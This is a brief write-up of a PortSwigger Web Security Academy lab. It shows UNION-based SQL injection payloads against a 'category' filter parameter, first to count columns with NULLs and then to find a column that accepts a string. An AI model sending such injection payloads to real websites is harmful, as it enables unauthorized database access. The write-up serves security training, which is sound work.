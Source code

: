 https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

Using the folowing URL `/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--` now we know we have 3 columns

Enumerate the numbers of columns
and use the that query
`/filter?category='+UNION+SELECT+NULL,NULL,NULL--`

and then use the string provided by the lab
and use the that query
`/filter?category='+UNION+SELECT+NULL,'string',NULL--`
if it keeps giving you 500 error try to change the sring from a different orded